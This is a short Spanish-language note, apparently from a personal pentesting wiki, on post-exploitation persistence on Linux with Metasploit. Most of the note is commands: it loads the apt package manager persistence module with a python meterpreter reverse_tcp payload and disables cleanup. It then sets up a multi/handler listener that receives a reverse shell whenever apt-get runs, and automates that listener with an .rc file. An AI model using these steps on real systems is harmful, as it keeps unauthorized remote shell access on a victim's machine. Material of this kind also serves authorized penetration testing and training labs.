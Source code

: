 Parte de [[Postexplotacion]]

Tecnicas a utilizar para poder persistir en un sistema en caso de que, por ejemplo, se reinicie

En metasploit con meterpreter por ejemplo:

``` bash
search Linux Persistence
use exploit/linux/local/apt_package_manager_persistence
set session [Sid]
set payload cmd/unix/python/meterpreter/reverse_tcp
set LHOST [Lip]
set LPORT [Lport]
set AllowNoCleanup true
run
```

Es importante quedarse siempre con el LHOST, el LPORT y que payload hemos usado.

Despues podremos:

``` bash
use exploit/multi/handler
set LHOST [Lip]
set LPORT [Lport]
set PAYLOAD [SentPayload]
run
```

Y cuando se ejecute apt-get, recibiremos una conexion de meterpreter

Tambien podemos iniciar el multihandler con:

``` bash
run -j -z
```

Para poder seguir usando la terminal mientras esperamos.

Tambien podemos crear un fichero .rc para automatizar el incio del escuchador, insertamos los comandos (uno por linea) que queremos hacer y despues:

``` bash
sudo msfconsole -r [file].rc
```